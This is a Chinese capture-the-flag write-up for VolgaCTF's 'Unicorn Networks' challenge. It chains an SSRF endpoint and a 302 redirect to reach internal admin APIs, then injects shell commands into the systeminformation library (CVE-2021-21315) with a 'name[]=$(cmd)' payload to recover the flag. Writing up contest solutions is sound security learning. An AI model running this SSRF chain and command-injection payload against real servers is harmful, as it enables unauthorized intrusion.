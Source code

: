 # Unicorn Networks

查看 HTML src 可以看到這個 API endpoint:

`http://192.46.237.106:3000/api/getUrl?url=http://kaibro.tw:5278`

會收到 Request:

```
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.21.0
Host: kaibro.tw:5278
Via: 1.1 9a3403815e7c (squid/3.5.27)
X-Forwarded-For: 172.18.0.2
Cache-Control: max-age=259200
Connection: keep-alive
```

可以看到背後有過 squid

然後測一下可以發現 `gopher` 能用

但這些都不太重要XD

<Br>

用 302 redirect 繞過一些本機檢查後，會發現 `127.0.0.1/admin/` 這裡有兩個額外的 API endpoint 可以用

其中一個 `http://127.0.0.1/api/admin/service_info?name=`

`name` 輸入完，會列出一堆 pid, pcpu, pmem 之類的資訊:

```
{"status":"ok","content":[{"name":"bootmisc.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"checkfs.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"checkroot-bootclean.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"checkroot.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"hostname.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"killprocs","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"mountall-bootclean.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"mountall.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"mountdevsubfs.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"mountkernfs.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"mountnfs-bootclean.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"mountnfs.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"nginx","running":true,"startmode":"","pids":[21,23,24],"pcpu":0.9535479917786487,"pmem":0.2},{"name":"procps","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"rc.local","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"sendsigs","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"umountfs","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"umountnfs.sh","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"umountroot","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0},{"name":"urandom","running":false,"startmode":"","pids":[],"pcpu":0,"pmem":0}]}
```

Recon 一下，會發現這個是用到一套叫 `systeminformation` 的 Library: https://github.com/sebhildebrandt/systeminformation

然後不久前出過一個 Command Injection 的洞: https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC

裡面用 `name[]` 來 bypass 檢查

實際踹了一下，的確用 `name[]=$(cmd)` 就能 shell 惹

`VolgaCTF{ExpRe$$_node_vulns_3719947192}`
